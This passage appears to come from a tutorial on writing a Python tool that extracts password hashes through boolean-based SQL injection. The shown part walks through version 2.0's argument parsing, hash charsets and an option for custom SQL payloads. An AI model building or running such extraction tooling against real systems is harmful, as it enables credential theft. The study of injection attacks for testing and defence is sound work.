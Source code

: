 The script was able to extract the correct hashes from the database using boolean-based SQL injection queries. This demonstrates the tool's effectiveness in exploiting SQL injection vulnerabilities to extract sensitive information. Next, we will enhance the tool by adding more features and options.

## Developing the Python Tool: v2.0

In this version, we will add more features to the tool, such as command-line arguments for specifying the target URL, charset, and success message. We will also include error handling and improve the user interface to enhance the tool's usability and flexibility.

I'll again go section by section with the updates, explaining the changes and their significance.

```python
import requests
import sys
import argparse

# charsets for different hash types
CHARSETS = {
    "md5": "0123456789abcdef",  
    "sha1": "0123456789abcdef",  
    "base64": "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/", 
}
```

This section updates the imports and defines a dictionary of charsets for different hash types. The `CHARSETS` dictionary maps hash types to their corresponding character sets, enabling users to specify the charset for hash extraction. `sys` and `argparse` are imported to handle command-line arguments.

```python
# user input function
def get_input(prompt, default=None):
    user_input = input(prompt)
    return user_input.strip() or default
```

This helper function simplifies obtaining user input. If the user enters nothing, it falls back to a provided default value. It ensures that prompts for optional parameters are handled cleanly and reduces redundant input validation code.

```python
# command line arguments
parser = argparse.ArgumentParser(description="SQL Injection Password Extraction Tool")
parser.add_argument("-t", "--target", help="Target URL", required=True)
parser.add_argument("-n", "--needle", help="Needle (success message) to identify successful login", default="Login successful!")
parser.add_argument("-c", "--charset", help="Charset for hash extraction", choices=CHARSETS.keys(), default="md5")
parser.add_argument("-p", "--payload", help="Custom SQL payload to inject (use {payload} placeholder for dynamic parts)", default=None)
args = parser.parse_args()
```

This block parses command-line arguments, adding flexibility and user control:
- `--target` specifies the URL of the vulnerable application (required).
- `--needle` defines the success message used to identify successful injections, defaulting to "Login successful!".
- `--charset` allows the user to choose a hash format from the predefined charsets (md5, sha1, or base64).
- `--payload` introduces support for custom SQL payloads, enabling advanced testing scenarios. These options enhance the tool's usability and adaptability.
